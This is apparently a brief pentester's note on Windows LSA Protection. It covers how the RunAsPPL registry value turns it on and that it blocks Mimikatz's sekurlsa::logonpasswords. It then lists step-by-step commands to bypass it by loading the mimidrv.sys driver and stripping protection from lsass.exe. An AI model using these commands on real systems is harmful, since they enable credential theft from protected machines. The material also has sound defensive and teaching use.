

# Credential Protections - LSA Protection
Windows 8.1 and Windows Server 2012 R2 introducted LSA Protection.
This involves enabling LSASS as a protected process, which means non-protected processes can't interact with LSASS.
This prevents reading memory and code injection by non-protected processes.
How to enable LSA Protection here:
https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn408187(v=ws.11)?redirectedfrom=MSDN#on-x86-based-or-x64-based-devices-using-secure-boot-and-uefi-or-notTo activate LSA protection you need to set the value:
RunAsPPL to
1 in:
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA## What does it block?
Mimikatz's
sekurlsa::logonpasswords - that shit ain't working anymore
## Bypass using mimidrv.sys
You can bypass LSA protection by loading Mimikatz's kernel driver -
mimidrv.sysIn-depth look here -
https://posts.specterops.io/mimidrv-in-depth-4d273d19e148I don't know how to load it remotely yet/if possible.1. Copy
mimidrv.sys to current working directory
2.
!+ checks for the kernel driver - mimidrv.sys - in the current working directory
3. Remove process protection -
!processprotect /process:lsass.exe /remove4.
!- - When finished, remove the driver
